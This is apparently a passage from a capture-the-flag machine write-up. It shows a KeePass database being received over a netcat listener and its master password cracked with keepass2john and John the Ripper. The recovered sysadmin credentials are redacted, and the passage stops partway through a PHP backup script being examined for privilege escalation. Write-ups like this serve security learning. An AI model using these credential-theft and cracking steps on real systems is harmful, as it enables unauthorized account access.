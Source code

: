 ```bash
$ nc -l -p 4444 > dataset.kdbx
$ keepass2john dataset.kdbx > Keepasshash.txt
$ cat Keepasshash.txt  
dataset:$keepass$*2*100000*0*21**REDACTED**4
$ john --wordlist=/usr/share/wordlists/rockyou.txt Keepasshash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
7**REDACTED**3        (dataset)     
1g 0:00:00:12 DONE (2023-04-11 16:52) 0.08077g/s 70.75p/s 70.75c/s 70.75C/s chichi..melvin
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

We can now use `keepass2` to open the `dataset.kdbx` file with the master password we retrieved above. We get the credentials `sysadmin:C**REDACTED**0`. We can now switch accounts.

## Privilege Escalation

We notice that there is a `script.php` file in the `/home/sysadmin/scrips/` directory, that requires the `lib/backup.inc.php` file. These scripts create a `backup.zip` of the `/home/sysadmin/scrips/` directory. 

```php
$ cat script.php
<?php

//Backup of scripts sysadmin folder
require_once('lib/backup.inc.php');
zipData('/home/sysadmin/scripts', '/var/backups/backup.zip');
echo 'Successful', PHP_EOL;

//Files scheduled removal
$dir = "/var/www/html/cloud/images";
if(file_exists($dir)){
    $di = new RecursiveDirectoryIterator($dir, FilesystemIterator::SKIP_DOTS);
    $ri = new RecursiveIteratorIterator($di, RecursiveIteratorIterator::CHILD_FIRST);
    foreach ( $ri as $file ) {
        $file->isDir() ?  rmdir($file) : unlink($file);
    }
}
?>
$ cat lib/backup.inc.php
<?php


ini_set('max_execution_time', 600);
ini_set('memory_limit', '1024M');


function zipData($source, $destination) {
        if (extension_loaded('zip')) {
                if (file_exists($source)) {
                        $zip = new ZipArchive();
                        if ($zip->open($destination, ZIPARCHIVE::CREATE)) {
                                $source = realpath($source);
                                if (is_dir($source)) {
                                        $files = new RecursiveIteratorIterator(new RecursiveDirectoryIterator($source, RecursiveDirectoryIterator::SKIP_DOTS), RecursiveIteratorIterator::SELF_FIRST);
                                        foreach ($files as $file) {
                                                $file = realpath($file);
                                                if (is_dir($file)) {
                                                        $zip->addEmptyDir(str_replace($source . '/', '', $file . '/'));
```